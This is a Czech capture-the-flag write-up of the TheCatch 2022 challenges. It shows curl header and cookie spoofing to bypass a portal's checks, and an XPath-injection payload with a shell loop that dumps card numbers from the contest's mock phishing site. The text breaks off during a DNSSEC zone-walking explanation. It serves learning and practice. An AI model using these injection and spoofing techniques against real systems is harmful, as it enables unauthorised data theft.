


# TheCatch 2022

CESNET na podzim 2022 opět uspořádal již tradiční CTF hru [TheCatch](https://www.thecatch.cz/)
se spoustou úloh, ve kterých bylo vždy získat "vlajku" (nějaký kód) ukrytý
v různých podobách na různých místech. Povedlo se mi nakonec získat vlajku ve
14 z 18 úloh a níže se je pokusím popsat svůj postup na jejich řešení.

## Candidate challenges – jednoduchá rozcvička (4/4 bodů)

### VPN access (1/1 bod)

> Hi, promising candidate,
>
> a lot of internal system is accessible only via VPN. You have to
> install and configure OpenVPN properly. Configuration file can be
> downloaded from CTFd's link VPN. Activate VPN and visit testing page
> <http://candidate-test.mysterious-delivery.tcc>, where the control code
> is.
>
> May the Packet be with you!

Tady asi není co vysvětlovat, bylo jen potřeba stáhnout si vygenerovaný
konfigurační soubor pro OpenVPN (s osobním privátním klíčem), spustit OpenVPN,
navštívit stránku na neexistující TLD .tcc dostupnou jenom přes VPNku a z ní
přečíst vlajku.

OpenVPN v Linuxu jednoduše spustíme pomocí:

```sh
sudo openvpn --config ctfd_ovpn.ovpn
```

Trochu trikové bylo jenom DNSka do resolveru. Ve Windows se to stane automaticky,
v Linuxu na to je potřeba pár řádků v konfiguraci navíc. Třeba standardní Debian
instalace OpenVPN obsahuje skript `/etc/openvpn/update-resolv-conf`, který se
postará o přidání DNSka získaného od OpenVPN serveru do systémového resolveru.
Aby se to stalo automaticky, stačí do konfiguračního souboru staženého ze
stránek přidat:

```conf
script-security 2
up /etc/openvpn/update-resolv-conf
down /etc/openvpn/update-resolv-conf
down-pre
```

Na <http://candidate-test.mysterious-delivery.tcc> pak byla k nalezení vlajka
`FLAG{kBXt-jdGI-EwwT-6pfp}`.

### Bitcoin wallet (1/1 bod)

> Hi, promising candidate,
>
> our customers paying by bitcoin to our wallet
> `bc1q8vnufzpyurlnvrxavrn2vxe5z0nafrp2d8nzng` can get their package pickup code
> on<http://pay-check.mysterious-delivery.thecatch.cz> by entering their wallet
> ID.
>
> Find out the pickup code for package that has not yet been claimed, although
> it was already paid for on Aug 8th 2022.
>
> May the Packet be with you!

Dostali jsme ID Bitcoinové peněženky, na kterou byla provedena platba. Díky své
podstatě je Bitcoin (a jiné blockchainové kryptoměny) v podstatě otevřená účetní
kniha, kde lze dohledat všechny transakce týkající se nějaké peněženky.

Existuje mnoho webů umožňující náhled na jednotlivé transakce, stačí se podívat
třeba na <https://www.blockchain.com/btc/address/bc1q8vnufzpyurlnvrxavrn2vxe5z0nafrp2d8nzng>.

Tam nalezneme, že na tuto peněženku byla provedena jediná transakce z Bitcoinové
peněženky `bc1qrqqjjuefgc4akxl05cd4haxp5jznmmptjrllft`. Toti ID zadáme do
připraveného webu a když si necháme zobrazit poznámku, dostaneme vlajku
`FLAG{PWei-v9hV-tekF-ptEl}`.

### Unknown package (1/1 bod)

> Hi, promising candidate,
>
> the cleaning drones have taken pictures of some abandoned unknown package in
> our backup depot. The AI claims that the analysed item is in no way a package,
> instead it repeats "cat - animal - dangerous - avoid".
>
> Get as much as possible information about the package.
>
> Download [taken pictures](https://owncloud.cesnet.cz/index.php/s/YxcC6BP430nR5en)
> (MD5 checksum `c6f700e1217c0b17b7d3a35081c9fabe`).
>
> May the Packet be with you!

Ve staženém ZIPu jsou dvě fotky balíčku, jedna s hezkými obrázky a druhá
s různými kódy. Když si je načteme (třeba telefonem z obrazovky, nebo zavoláním
`zbarimg unknown_package_2261_2.JPG` z balíčku `zbar-tools`), zjistíme
následující:

* QR kód obsahuje adresu:

  ```text
  Mr. Erwin Rudolf Josef Alexander Schrodinger
  CESNET, a.l.e.
  Zikova 4
  Prague 6
  160 00
  ```

* První čárový kód (formátu CODE-128) obsahuje hledanou vlajku: `FLAG{Oics-NF3B-vUOC-pUMt}`
* Druhý čárový kód (taky formátu CODE-128) obsahuje instrukce: cat inside, feed
  twice a day, do not shake
* Třetí čárový kód (formátu CODE-39) obsahuje text: `234-821-568-142P` (co
  znamená jsem bohužel nezjistil, ale nebylo to třeba)

### Regex crossword (1/1 bod)

> Hi, promising candidate,
>
> you have to prove the knowledge of regular expressions. Our Finnish recruiter
> Timo has prepared some crossword suitable for > this purpose.
>
> Download [task
> description](https://owncloud.cesnet.cz/index.php/s/ODNoiM6g74pK73L) (MD5
> checksum `6448c1748cc6047470a5f00c3945c1c4`).
>
> May the Packet be with you!

Tohle se mi líbilo, mám rád regulární výrazy a křížovky :) Pro budoucí generace
jsem zachoval původní zadání i zde v repozitáři: [PDF se zadáním](05_Regex_crossword/finnish_regular_test.pdf)

Řešení bylo jednoduché (pro aktuální absenci tiskárny jsem vyplňoval
v [Xournal++](https://xournalpp.github.io/)). Šlo si všimnout, že všechny tři
uhlopříčky vynucují jistou měrou symetrii okolo prostředka. Vyplňování šlo
zahájit u některých jistých znaků a postupně doplňovat:



Nakonec z toho vyšlo symetrické řešení `USE{FLAG{SUOM-ULOT-TOLU-MOUS}GALF}ESU`,
z kterého stačilo vzít jen správnou podčást.

## Incidents (10/10 bodů)

### Route tracking (2/2 body)

> Hi, packet inspector,
>
> our company uses on-board route recorders, so traffic controller can optimize
> movement of all vehicles and also control the schedule. Any route can be
> described by a text string that contains the codes of individual sites in the
> order in which they were visited (except depot, because each drive starts and
> also ends there).
>
> Unfortunately, one of the recorders has been damaged and the particular sites
> were not recorded, just the total length of the route is known (exactly 163
> 912 meters). In addition, the driver told us that he never visited the same
> place more than once (except depot, of course).
>
> Your task is to identify the exact route of the vehicle.
>
> Download [the map of vehicle operating area and backround info](https://owncloud.cesnet.cz/index.php/s/LKjPzl5QawyisH3)
> (MD5 checksum `5fd3f52bcb404eae543eba68d7f4bb0a`).
>
> May the Packet be with you!

Celkem přímočará algoritmická úloha, kde na vstupu dostaneme graf (vrcholy a hrany
mezi nimi) a cílem je najít cestu ze startu do startu, která má přesně zadanou
délku. Při pohledu na graf v PNG souboru si všimneme, že jednotlivé vrcholy mají
jednopísmenné kódy, mezi nimiž je například i `{`, `}` a `-`, což jsou znaky
vyskytující se ve formátu vlajky. Vypadá to, že pokud nalezneme cestu splňující
zadané parametry, tak dostaneme vlajku z kódů vrcholů, přes které procházíme.

První částí úlohy bylo **načtení vstupu**, protože jsme ho dostali popsaný jen
v `.dot` souboru pro [Graphviz](https://graphviz.org/). Ten se dá buď naparsovat
ručně (není to příliš složitý formát), nebo lze použít nějakou již hotovou
knihovnu (Graphviz je docela používaný). Já jsem zvolil druhou možnost a použil
knihovnu [`pydot`](https://pypi.org/project/pydot/) pro Python.

Nyní již máme načtené vrcholy a hrany, druhou částí řešení je **nalezení cesty
zadné délky**. Potřebujeme vymyslet vhodný algoritmus.

Pokud bychom chtěli úlohu vyřešit obecně v rozumném polynomiálním čase, asi by
se nám moc dobře nevedlo, úloha je totiž NP-úplná (hledání cesty zadané délky se
dá celkem snadno převést na rozhodovací problém existence [Hamiltonovské
kružnice](https://cs.wikipedia.org/wiki/Hamiltonovsk%C3%BD_graf) pomocí hledání
cesty délky N v jednotkovém grafu… a hledání Hamiltonovské kružnice je známý
NP-úplný problém).

Nám ale stačí úlohu vyřešil hrubou silou pro rozumně malý graf. Můžeme například
zvolit prohledávání do hloubky (DFS), které si bude značit (a při návratu
odznačovat) použité vrcholy a které budeme zařezávat po překročení hledané délky
cesty. Přesně takto jsem ho implementoval, viz: [`solver.py`](09_Route_tracking/solver.py)

Toto řešení má exponenciální časovou složitost, ale pro náš malý graf je
dostačující a prakticky okamžitě najde výsledek `FLAG{SLiH-QPWV-hIm5-hWcU}`.

### Van keys (2/2 body)

> Hi, packet inspector,
>
> all our delivery vans use password instead of standard car keys. Today, we
> have found out that the AI has implemented a new security measure – the vans
> are now referred as "AES Vans" and the password has been changed and
> encrypted. The decryption part is not yet finished, so we can't start any
> delivery van since morning!
>
> Good news is that we managed to get the latest version of the decryption
> script from git repository. Bad news is that the script is not finished yet!
> Your task is to the finalize the script and decrypt the password as soon as
> possible.
>
> Download [the script and encrypted password](https://owncloud.cesnet.cz/index.php/s/J6oePmHEplrCXii)
> (MD5 checksum `e67c86a277b0d8001ea5b3e8f6eb6868`).
>
> May the Packet be with you!

Ve staženém balíčku šlo najít soubory `code.py` a `van_keys_enc.aes`. Kód měl
zdá se sloužit k dešifrování `van_keys_enc.aes` souboru, ale je rozbitý a neúplný.

Postupně v kódu opravíme chyby (a zastaralosti):

* Na moderních systémech už není `python` ale explicitně `python3`, opravíme
  tedy shebang na `#!/usr/bin/env python3`
* Přidáme import chybějících knihoven: `base64`, `hashlib`, `random`
* Vypadá to, že kód editovalo více lidí a jeden odsazoval tabulátory a druhý
  mezerami, Python tohle nemá rád. Opravíme tedy vše na mezery (v tomhle hodně
  pomůže zobrazení whitespace znaků v editoru).
* Přidáme scházející dvojtečky za řídícími sekvencemi (za `def decrypt…` a za
  `for` cyklem)

Poté musíme doplnit scházející kód namísto `TODO`. Je to celkem přímočaré:

```python3
    with open("van_keys_enc.aes", "rb") as f:
        content = f.read()

    print(obj.decrypt(content))
```

Teď již máme spustitelný skript, ale schází mu soubor `pi_dec_1m.txt`. Chvíle
hledání na internetu nám prozradí, že se jedná o soubor s prvním milionem cifer
čísla π, který lze snadno stáhnout například [zde](https://pi2e.ch/blog/2017/03/10/pi-digits-download/).

Po jeho stažení už nám skript ochotně dekóduje vlajku: `FLAG{ITRD-Pyuv-JuLt-9zpM}`

*Komentář: Vyrábět super-secure klíč z lehce rekonstruovatelného klíče je velmi
špatné použití kryptografického systému (zde naschvál použitého kvůli soutěži).
Správně by proces výroby klíče neměl být již nikdy replikovatelný (ani při úniku
zdrojových kódů), klíč by měl vyroben jen jednou a bezpečně uložen.*

### Messenger portal (3/3 body)

> Hi, packet inspector,
>
> our messengers are dependent on aplication called Messenger portal when they
> are in the field. It allows to display various information they need to do
> their jobs on their special mobile devices.
>
> Currently, the AI has installed new modern and fully responsive version of the
> Messenger portal – even the validation of messenger numeric ID is not
> implemented yet and the messengers report problem with displaying details of
> they deliveries.
>
> You have to analyze the [Messenger portal](http://messenger-portal.mysterious-delivery.thecatch.cz/)
> and find some way to get detail information about deliveries. Hurry, please,
> the packages are pilling up!
>
> May the Packet be with you!

Tahle úloha byla spíše mechanicky otravná, ale hezky ilustruje, co všechno může
web zjistit o klientském prohlížeči a zařízení.

Po načtení stránky zjistíme, že se dostáváme na jakýsi Messenger portál, kam lze
do jediného formulářového políčka zadat identifikaci poslíčka. Když do políčka
zkusíme zadat nějaké písmeno, zahlásí nám web "Invalid messenger identifier.",
když tam zkusíme zadat nějaké číslo (protože ID jsou přece čísla), tak se
nestane na první pohled nic.

Zkoumání Javascriptu ukazuje, že je nehezky obfuscovaný, tak nejdříve zaměříme
zkoumání na jeho chování. Otevřeme si tedy debug konzolu prohlížeče a zjistíme,
že ve chvíli odeslání políčka s číslem udělá Javascript request na server, ze
kterého dostane nazpátek zprávu, kterou zaloguje do konzole: `Detected
unsupported device. Only mobile devices are supported.`

Podíváme se, co jsem poslali za request a jak mohl server poznat, že nejsm
mobil. Request byl POST a poslali jsme:

```text
messenger: NTEyMA==
messenger_identifier: 1
```

Druhý řádek je jasný, to je hodnota z formuláře. Ale co první řádek? Dekódujeme
ho pomocí base64 a zjistíme, že je to šířka naší obrazovky (v tomto případě 5120
pixelů), kterou umí snadno zjistit klientský Javascript. Zkusme tedy poslat užší
rozlišení, třeba ručně pomocí curlu:

```sh
$ curl 'http://messenger-portal.mysterious-delivery.thecatch.cz/' -X POST --data-raw 'messenger=NTEyMA%3D%3D&messenger_identifier=1'
{"debugInfo":"Detected unsupported device. Only mobile devices are supported.","message":""}

$ curl 'http://messenger-portal.mysterious-delivery.thecatch.cz/' -X POST --data-raw 'messenger=NTc2Cg%3D%3D&messenger_identifier=1'
{"debugInfo":"Detected unsupported web browser! Only The Catcher\/1.0\/2022 is supported.","message":"Unsupported browser!"}
```

Je vidět, že v závislosti na šířce displeje nám dává server jiné odpovědi, vrchní
curl je se šířkou 5120, spodní je se šířkou 576 (největší šířka, na kterou již
dá server jinou odpověď a pustí nás o úroveň dál).

Teď se ale serveru nelíbí náš browser, jak pozná ten? Browser ve chvíli requestu
posílá serveru řadu hlaviček, mezi nimi například i hlavičku `User-Agent`, kde
se představí. Normálně takhle hlavička vypadá třeba takto: `User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0`. Zkusme se tedy serveru představit jinak:

```sh
$ curl 'http://messenger-portal.mysterious-delivery.thecatch.cz/' -X POST -H 'User-Agent: The Catcher/1.0/2022' --data-raw 'messenger=NTc2Cg%3D%3D&messenger_identifier=1'
{"debugInfo":"Detected unsupported OS! Only MessengerOS is supported.","message":"Unsupported OS!"}
```

To zdá se nestačí. Browsery o sobě totiž v `User-Agent` hlavičce vyžvaní i
operační systém, na kterém běží. Běžný formát této hlavičky (začátek je tam
hlavně kvůli zpětné kompatibilitě z dřevních dob internetu) vypadá podle stránek
[MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent) takto:

```text
User-Agent: Mozilla/5.0 (<system-information>) <platform> (<platform-details>) <extensions>
```

Pošleme tedy vylepšený request:

```sh
$ curl 'http://messenger-portal.mysterious-delivery.thecatch.cz/' -X POST -H 'User-Agent: Mozilla/5.0 (MessengerOS) The Catcher/1.0/2022' --data-raw 'messenger=NTc2Cg%3D%3D&messenger_identifier=1'
{"redirect":1}
```

Nazpátek nám přijde tajemné `{"redirect":1}`, ale redirect to není (odpověď má
status kód 200 a neobsahuje hlavičku `Location`), co s tím teď? Vypadá to, že
přesměrování má udělat obfuscovaný Javascript na straně klienta.

Zkusíme alternativní přístup a to emulace mobilu v rámci devtools ve Firefoxu.
Navolíme šířku na nejvýše 576 pixelů, přepíšeme UA na `Mozilla/5.0 (MessengerOS)
The Catcher/1.0/2022` a pošleme request. A ejhle, něco se stalo, Firefox se
pokusil zobrazit iframe, jen ho zablokoval kvůli nenastavenému
[`X-Frame-Options`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options).
Z devtools ale zjistíme adresu `?messenger-jobs` a můžeme pokračovat naším curlem.

Když zkusíme stáhnout tuto stránku samostatně (první příkaz), tak dostaneme opět
stránku s formulářem, takže nic zajímavého. Ale mohli jsme si všimnout, že nazpět
při předchozích requestech dostáváme Cookie `PHPSESSID`, do které se asi něco
ukládá na straně serveru. Vezmeme si tedy cookie, kterou dostaneme nazpět
z POSTu, a pošleme ji s GETem na novou adresu:

```sh
$ curl -v 'http://messenger-portal.mysterious-delivery.thecatch.cz/' -X POST -H 'User-Agent: Mozilla/5.0 (MessengerOS) The Catcher/1.0/2022' --data-raw 'messenger=NTc2Cg%3D%3D&messenger_identifier=1' 2>&1 | grep Cookie
< Set-Cookie: PHPSESSID=ad44fc0ce88d5a611e26180118ef406b; path=/

$ curl 'http://messenger-portal.mysterious-delivery.thecatch.cz/?messenger-jobs' -H 'User-Agent: Mozilla/5.0 (MessengerOS) The Catcher/1.0/2022' -H 'Cookie: PHPSESSID=ad44fc0ce88d5a611e26180118ef406b' -H 'Referer: http://messenger-portal.mysterious-delivery.thecatch.cz/'
{"message":"Only requests from messenger-portal.mysterious-delivery.thecatch.cz server are allowed."}
```

To začíná vypadat nadějně. Ještě přidáme hlavičku `Referer` a vlajka je naše:

```sh
$ curl 'http://messenger-portal.mysterious-delivery.thecatch.cz/?messenger-jobs' -H 'User-Agent: Mozilla/5.0 (MessengerOS) The Catcher/1.0/2022' -H 'Cookie: PHPSESSID=ad44fc0ce88d5a611e26180118ef406b' -H 'Referer: http://messenger-portal.mysterious-delivery.thecatch.cz/'

          <p>
            <strong>Recipient:</strong><br>
            CESNET, z. s. p. o.
          </p>
          <p>
            <strong>Address:</strong><br>
            Zikova 4, Praha<br>
            160 00
          </p>
          <p>
            <strong>Note:</strong><br>
            <span style="direction: rtl; unicode-bidi: bidi-override !important;">{EEw1-z9Tx-6Hb3-nJjC}GALF</span>
          </p>
```

### Fraudulent e-mail (3/3 body)

> Hi, packet inspector,
>
> we have a apparently problem with some fraudulent payment gateway (see
> forwarded e-mail). We suspect that many of our customers have come across this
> scam.
>
> Identify all card numbers entered into the fraudulent webpage (we have to
> report incident and its details to CSIRT-TCC).
>
> Download [fraudulent e-mail](https://owncloud.cesnet.cz/index.php/s/sP8kJqndbmYzQoj)
> (MD5 checksum `94c7696bed436cd63a490de4008d2022`).
>
> May the Packet be with you!

Ze staženého emailu vykoukáme, že se jedná o typický phishing odkazující na
podvodnou stránku <http://really.sneaky.phishing.thecatch.cz>.

Když ji navštívíme, všimneme si, že chce číslo a další údaje k naší kartě. Tak
jí zkusme nějaké údaje dát. Po chvíli zjistíme, že si Javascriptem kontroluje,
že délka jména je alespoň dva znaky, délka CVV kódu je přesně tři znaky a číslo
karty musí být dlouhé buď 16 nebo 19 znaků a musí to být číslo a expirace musí
být dlouhá 7 znaků.

Když však vypneme Javascript, zjistíme, že validační podmínky na straně serveru
jsou jiné – expirace musí být validní číslo, podmínky na jméno a CVV jsou stejné,
ale číslo karty klidně může být jakýkoliv string, pokud je dlouhý nejvýše 19
znaků. Pojďme si tedy hrát s číslem karty.

Zkusme poslat `"`, to občas něco rozbije. A ejhle, na vršku stránky se zobrazil
warning:

```text
Warning
: SimpleXMLElement::xpath(): Unfinished literal in
/var/www/html/index.php
on line
82
```

Je dobré skrývat warningy v produkci, ale tady to autor neudělal, takže
zjišťujeme, že číslo karty asi prochází skrze PHP funkci [xpath](https://www.php.net/manual/en/simplexmlelement.xpath.php),
která spouští XPath dotazy na XMLku. To vypadá zajímavě.

Pojďme si to XMLko postupně prohlédnout, inspirování různými dotazy ze stránky
[XPATH injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection):

* XPATH dotaz `*` by nám měl vrátit jakýkoliv element (typicky ten první, na
  který narazí), zkusme ho. Po odeslání dostaneme právu
  `This card 4556-1329-8889-9614 is broken`. To vypadá že v XMLku jsou uložená
  čísla všech karet.
* XPATH dotaz `//*` by měl vybrat všechny elementy v dokumentu, vrátí to stejné
  číslo karty. Vypadá to, že PHP kód bere jen první výsledek. Pro vylistování
  všech karet je tedy budeme muset nějak projít.
* Vyzkoušíme postupně sestupovat hierarchií, abychom zjistili, kde je uložené
  číslo karty: `/*[1]` nic nevrátí, `/*[1]/*[1]` taky ne, `/*[1]/*[1]/*[1]`
  vrátí číslo karty.
* Zkusíme indexovat první úroveň, `/*[2]/*[1]/*[1]` nevrátí nic. Zkusíme
  indexovat druhou úroveň, `/*[1]/*[2]/*[1]` vrátí druhé číslo karty
  `5560-1204-0367-6130`. Namátkově zkusíme `/*[1]/*[100]/*[1]` a taky vrátí
  číslo. Těch karet je tam hodně, bude to chtít zautomatizovat.

Napsal jsem si proto jednoduchý curl a zjistil jsem, že karet je tam celkem 138
(další dotazy už nic nevrací):

```sh
for i in `seq 138`; do
    echo -n "$i"
    curl 'http://really.sneaky.phishing.thecatch.cz/' -s -X POST --data-raw "card-holder-name=XX&card-number=%2F*%5B1%5D%2F*%5B$i%5D%2F*%5B1%5D&card-expires-date=11%2F2022&card-cvv=111&proceed-to-pay="
done
```

Pak již stačilo si z každé stránky grepem vystřihnout číslo karty a 128. číslo
karty byla hledaná vlajka: `FLAG{0BF0-RREd-vAK3-1Ayi}`.

Celý skriptík: [`solve.sh`](11_Fraudulent_email/solve.sh)

## Miscellaneous (9/9 bodů)

### Old webpages (1/1 bod)

> Hi, packet inspector, the AI has apparently some problems to transfer data
> from previous information system to new one. All packages in state "waiting
> for pickup" were erroneously moved to state "delivered". Now, we have an angry
> customer in our depot and she want her package with shipment ID 2022-0845.
>
> In the previous IS, each package had his own domain name (for example,
> `ID 2022-0845` can be tracked on
> <http://tracking-2022-0845.mysterious-delivery.thecatch.cz>).
>
> Find the pickup code for package `2022-0845` as soon as possible, so we can
> give it to depot drone.
>
> May the Packet be with you!

Když se podíváme na zadanou adresu, najdeme jenom obrázek smutné kočky a text
"No code for already delivered packages." Takže kód na stránce asi dříve byl,
ale po označení balíčku za doručený už je pryč.

Všimneme si, že narozdíl od mnoha předchozích úloh je tahle na veřejné doméně,
není schovaná za VPNkou. Je tak možné, že stránku někdy v minulosti zaindexoval
WaybackMachine internetové archivu Archive.org. A skutečně:

<https://web.archive.org/web/20220808090332/tracking-2022-0845.mysterious-delivery.thecatch.cz>

Jak je vidět, tak to, co se jednou zjeví na internetu, už nezmizí. Na stránce se
nachází hledaná vlajka: `FLAG{pUVd-t1k9-DbkL-4r5X}`

### Download backup (2/2 body)

> Hi, packet inspector,
>
> our former employee Brenda (head of PR department) was working on new webpage
> with superdiscount code for VIP customers, but she get fired by AI because of
> "disturbing lack of machine precision".
>
> Your task is to find the code as soon as possible. The only hope is an
> automated backup of Brenda's Download directory (there is a high probability
> that she had downloaded the discount page or part of it).
>
> Download [the backup file](https://owncloud.cesnet.cz/index.php/s/ZgIMem5NDbS5SYZ)
> (MD5 checksum `2fd749e99a0237f506a0eb3e81633ad7`).
>
> May the Packet be with you!

Na této úloze jsem se naučil zajímavé věci o RAR archivech a o souborovém
systému NTFS. Ale popořadě :)

Po stažení ZIPu získáme několik souborů, mezi nimi je nějaký minimální popis
zálohy (včetně hesla k archivu) a RAR archiv. Když ho rozbalíme, tak z něj
vypadne obsah složky Download, ve kterém je několik obrázků a PDFek:

* `1098612x18781390.pdf` je zajímavý anglický článek o příbytcích pro kočky, ale
  pro nás nezajímavý
* `thecatch2022-form-header.png` a `xDracula_08-03-2012.jpg` jsou pro nás také
  nezajímavé obrázky
* `img.png` je obrázek, který se asi nacházel na zmiňované webové stránce se
  slevou pro VIP zákazníky

Po prozkoumání obrázku jsem dospěl k tomu, že v něm samotném se nic neskrývá,
ale že budeme chtít nějak najít stránku, na které se nacházel.

Nejdříve jsem zkoušel hledat obrázek na internetu pomocí reverse image search
vyhledávačů, které umí najít obrázek podle obrázku, známý je například
[TinyEye](https://tineye.com/). Bohužel bez úspěchu, povedlo se najít jenom
dílčí obrázky, ze kterých byl velký obrázek vytvořen.

Podíval jsem se proti na hint, který říkal, že Brenda pravděpodobně používala
souborový systém NTFS. Po chvíli zkoumání jsem zjistil, že NTFS má vlastnost,
které se říká ADS – Alternate Data Stream. Umožňuje k souborům ukládat různé
"alternativní streamy" obsahující zajímavá metadata (nad rámec těch klasických
jako je třeba datum vytvoření a změny). Zajímavé čtení o ADS se dá najít třeba
zde: <https://www.sciencedirect.com/topics/computer-science/alternate-data-stream>

Obdařen tímto novým zjištěním jsem zkoumal dál a zjistil jsem, že RAR archivy
umějí ukládat ADS, popis k tomu se dá najít třeba v [manuálu WinRARu](http://acritum.com/winrar/console-rar-manual):

> `-os`     Save NTFS streams. Win32 version only.
>
> This switch has meaning only for NTFS file system and allows
> to save alternative data streams associated with a file.
> It is especially important in Windows 2000, XP and newer,
> which use streams to keep some file dependent information
> like file descriptions. If you use RAR to backup your
> NTFS disks, it is recommended to specify this switch.

Takže úloha by asi šla vyřešit snadno ve Windows, kde bych RAR archiv rozbalil
WinRARem a podíval se pak na ADS rozbalených souborů. Ale vážně hodně se mi
nechtělo přebootovávat :D

Pátral jsem tedy do třetice a přišel jsem na to, že 7zip by měl umět i na Linuxu
alespoň zobrazit ADS a rozbalit je jako samostatné soubory. Jeho GUI verzi jsem
našel jen ve snapu, takže:

```sh
$ snap install p7zip-desktop
p7zip-desktop 16.02.2 from Ernesto Castellotti (ernytech) installed
$ p7zip-desktop
```

Vyhledáme náš archiv a celý ho rozbalíme. Všimneme si, že u každého souboru je
ještě přidružený soubor s názvem rozšířeným o `:Zone.Identifier`. Soubory
obsahují textovou podobu ADS:

```sh
$ for a in *:Zone.Identifier; do echo "$a:"; cat "$a"; done
img.png:Zone.Identifier:
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://self-service.mysterious-delivery.thecatch.cz/
HostUrl=http://self-service.mysterious-delivery.thecatch.cz/img.png
thecatch2022-form-header.png:Zone.Identifier:
[ZoneTransfer]
ZoneId=3
HostUrl=https://www.thecatch.cz/files/4d0b6a22940277d009aad4a681d554c6/thecatch2022-form-header.png
xDracula_08-03-2012.jpg:Zone.Identifier:
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://www.rouming.cz/roumingShow.php?file=xDracula_08-03-2012.jpg
HostUrl=https://www.rouming.cz/archived/xDracula_08-03-2012.jpg
1098612x18781390.pdf:Zone.Identifier:
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://www.researchgate.net/publication/326313071_Shelter_housing_for_cats_Practical_aspects_of_design_and_construction_and_adaptation_of_existing_accommodation
HostUrl=https://www.researchgate.net/profile/Denae-Wagner/publication/326313071_Shelter_housing_for_cats_Practical_aspects_of_design_and_construction_and_adaptation_of_existing_accommodation/links/5bda2d074585150b2b945b6f/Shelter-housing-for-cats-Practical-aspects-of-design-and-construction-and-adaptation-of-existing-accommodation.pdf
```

Lehce už vyčteme adresu <http://self-service.mysterious-delivery.thecatch.cz/>,
na které se nachází vlajka `FLAG{16bd-0c4x-ZRJe-8HC3}`.

### DNS storage (3/3 body)

> Hi, packet inspector,
>
> biggest surprise of the day is that the AI has started to use DNS as a storage
> for its own information. The data are stored in TXT resource records in the
> zone `mysterious-delivery.tcc`. The zone is deployed on DNS servers
> `ns1.mysterious-delivery.thecatch.cz` and `ns2.mysterious-delivery.thecatch.cz`.
>
> Analyze content of zone and focus on any codes for our depot steel safes (AI
> has changed the access code and we hope it is stored right in the DNS zone).
>
> May the Packet be with you!

Data skrytá v DNSku, nice :)

Podíváme se, co se v DNSku všechno skrývá pomocí `dig ANY @ns1.mysterious-delivery.thecatch.cz mysterious-delivery.tcc`.
Dostaneme (zkráceno):

```text
;; ANSWER SECTION:
mysterious-delivery.tcc. 86400	IN	SOA	ns1.mysterious-delivery.tcc. hostmaster.ns1.mysterious-delivery.tcc. 2022100101 604800 86400 2419200 86400
mysterious-delivery.tcc. 86400	IN	RRSIG	SOA 8 2 86400 20221029112658 20220929112658 65089 mysterious-delivery.tcc. fZk3...
mysterious-delivery.tcc. 86400	IN	NS	ns2.mysterious-delivery.thecatch.cz.
mysterious-delivery.tcc. 86400	IN	NS	ns1.mysterious-delivery.thecatch.cz.
mysterious-delivery.tcc. 86400	IN	RRSIG	NS 8 2 86400 20221029112658 20220929112658 65089 mysterious-delivery.tcc. cdUX...
mysterious-delivery.tcc. 86400	IN	NSEC	www.customer-service.mysterious-delivery.tcc. NS SOA RRSIG NSEC DNSKEY
mysterious-delivery.tcc. 86400	IN	RRSIG	NSEC 8 2 86400 20221029112658 20220929112658 65089 mysterious-delivery.tcc. 45uH...
mysterious-delivery.tcc. 86400	IN	DNSKEY	256 3 8 AwEA...
mysterious-delivery.tcc. 86400	IN	DNSKEY	257 3 8 AwEA...
mysterious-delivery.tcc. 86400	IN	RRSIG	DNSKEY 8 2 86400 20221029112658 20220929112658 22312 mysterious-delivery.tcc. MsPz...
mysterious-delivery.tcc. 86400	IN	RRSIG	DNSKEY 8 2 86400 20221029112658 20220929112658 65089 mysterious-delivery.tcc. QwEL...
```

Všimneme si, že tady žádný TXT záznam není, asi budeme muset najít jinou
(sub)doménu. Ale ještě důležitější zjištění je to, že doména je chráněná pomocí
DNSSEC. Můžeme si třeba pročíst [starý článek o DNSSEC na Root.cz](https://www.root.cz/clanky/jak-funguje-dnssec/)
pro základní pochopení fungování.

V kostce DNSSEC funguje podobně, jako webové certifikáty – autoritativní DNS server
má svůj asymetrický klíč, jehož veřejná část je podepsaná někým důvěryhodným
(nadřazenou doménou) a veřejný klíč společně s podpisem nadřazené domény tvoří
certifikát uložený v DNSKEY klíčích. Když pak položím DNS serveru dotaz, tak mi
normálně odpoví, ale zároveň mi přibalí ještě RRSIG, což je podpis odpovědi
pomocí klíče z DNSKEY.

*Poznámka: DNSKEY je tam typicky dvakrát, protože jeden z nich je delší a
používá se jen k podepisování druhého kratšího DNSKEY, který se často rotuje a
používá se pak k podepisování jednotlivých odpovědí. Ale to je pro nás
nedůležité.*

To je hezky navržený princip podepisování, ale kvůli zpětné kompatibilitě má
jistou díru. Jak podepsat prázdnou odpověď, tedy jak to, že nikdo nemůže
podvrhnout odpověď "x.y.z neexistuje"? K tomu byly vymyšlené záznamy NSEC, které
existují pro každé validní jméno a říkají, které první jméno (v setřízeném
seznamu) následuje po nich. Tedy když pro existující subdoménu `a.domena.cz`
dostaneme NSEC záznam "další validní subdoména je až `f.domena.cz`, tak bezpečně
víme, že doména `bedrich.domena.cz` neexistuje.

Když se dotážeme přímo na doménu `bedrich.domena.cz`, tak dostaneme NSEC záznam
